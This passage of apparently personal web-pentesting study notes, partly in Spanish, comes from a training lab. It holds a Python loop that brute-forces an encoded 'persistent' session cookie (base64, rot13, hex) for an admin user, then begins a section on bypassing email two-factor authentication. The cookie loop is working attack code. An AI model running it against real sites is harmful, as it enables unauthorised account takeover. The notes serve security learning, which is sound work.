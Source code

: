 ```python
    # force the string to be 5 chars, even if it is smaller than 10000
    x = str(x).zfill(5)

    print ("[+] Testing {}\r".format(x))
    plaintext_cookie = "htbadmin:persistentcookie:{}".format(x)

    # step 1: to Base64
    x_step1 = b64encode(plaintext_cookie.encode()).decode()
    #print(x_step1)

    # step 2: rot13
    x_step2 = codecs.encode(x_step1, "rot-13").encode()
    #print(x_step2)

    # step 3: to hex
    encoded_cookie = hexlify(x_step2)
    #print(encoded_cookie)

    # set cookie, decoding because wants a string
    cookie = { "PERSISTENT": encoded_cookie.decode() }

    # do the request
    res = requests.get(url, cookies=cookie)

    # handle Welcome message, that should tell us we found a valid cookie
    if 'Welcome ' in res.text:
        print("[+] Valid cookie found: {}".format(encoded_cookie))
        # we don't need more check
        exit()
    # if we are prompted a login page, we probably don't have a valid cookie
    elif 'Login ' in res.text:
        continue
    # we should never be here, notify in case
    else:
        print("[-] Unexpected reply, please manually check cookie {}".format(encoded_cookie))
```

## 2FA SIMPLE BYPASS

supongamos que una pagina tiene implementado un 2FA con email en su login, podemos iniciar sesion con nuestra cuenta:

![[Pasted image 20230205153202.png]]

nos pedira el 2FA que nos llegara a nuestro correo:

![[Pasted image 20230205153247.png]]

![[Pasted image 20230205153304.png]]

con eso logramos ingresar a nuestra cuenta de usuario:
